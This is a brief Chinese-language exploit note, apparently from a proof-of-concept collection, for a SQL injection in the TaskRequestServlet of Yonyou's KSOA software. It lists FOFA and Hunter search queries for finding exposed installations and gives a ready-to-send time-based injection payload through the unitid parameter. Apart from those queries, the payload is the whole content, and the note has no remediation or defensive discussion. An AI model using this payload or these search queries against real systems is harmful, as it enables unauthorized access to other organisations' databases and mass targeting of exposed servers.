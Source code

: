 # 用友时空KSOA TaskRequestServlet SQL注入

## 网络测绘

fofa: app="用友-时空KSOA"

hunter: app.name="用友时空 KSOA"

## POC / EXP

```
/servlet/com.sksoft.v8.trans.servlet.TaskRequestServlet?unitid=1';WAITFOR DELAY '0:0:5'--&password=1,
```